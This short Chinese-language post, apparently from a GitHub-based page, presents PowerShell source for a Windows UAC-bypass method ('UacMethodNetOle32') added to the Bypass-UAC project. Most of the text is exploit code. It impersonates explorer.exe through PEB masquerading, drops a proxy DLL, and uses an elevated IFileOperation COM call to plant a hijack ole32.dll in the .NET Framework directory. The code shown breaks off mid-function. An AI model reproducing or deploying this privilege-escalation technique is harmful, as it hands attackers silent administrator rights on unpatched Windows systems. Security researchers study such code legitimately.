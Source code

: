 ### Bypass-UAC实现： ###

添加方法绕过UAC是很容易的，如果你想了解更多，请查看在[GitHub](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC)上的项目！为了让我们的bypass更加便利，我添加了以下方法，如果有任何问题，请随时留言！

    'UacMethodNetOle32'
    {
    # Hybrid MMC method: mmc some.msc -> Microsoft.NET\Framework[64]\..\ole32.dll
    # Works on x64/x32 Win7-Win10 (unpatched)
    if ($OSMajorMinor -lt 6.1) {
    echo "[!] Your OS does not support this method!`n"
    Return
    }
     
    # Impersonate explorer.exe
    echo "`n[!] Impersonating explorer.exe!"
    Masquerade-PEB -BinPath "C:\Windows\explorer.exe"
     
    if ($DllPath) {
    echo "[>] Using custom proxy dll.."
    echo "[+] Dll path: $DllPath"
    } else {
    # Write Yamabiko.dll to disk
    echo "[>] Dropping proxy dll.."
    Emit-Yamabiko
    }
     
    # Get default .NET version
    [String]$Net_Version = [System.Reflection.Assembly]::GetExecutingAssembly().ImageRuntimeVersion
     
    # Get count of PowerShell processes
    $PS_InitCount = @(Get-Process -Name powershell).Count
     
    # Expose IFileOperation COM object
    Invoke-IFileOperation
     
    # Exploit logic
    echo "[>] Performing elevated IFileOperation::MoveItem operation.."
    # x32/x64 .NET folder
    if ($x64) {
    $IFileOperation.MoveItem($DllPath, $($env:SystemRoot + '\Microsoft.NET\Framework64\' + $Net_Version + '\'), "ole32.dll")
    } else {
    $IFileOperation.MoveItem($DllPath, $($env:SystemRoot + '\Microsoft.NET\Framework\' + $Net_Version + '\'), "ole32.dll")
    }
    $IFileOperation.PerformOperations()
     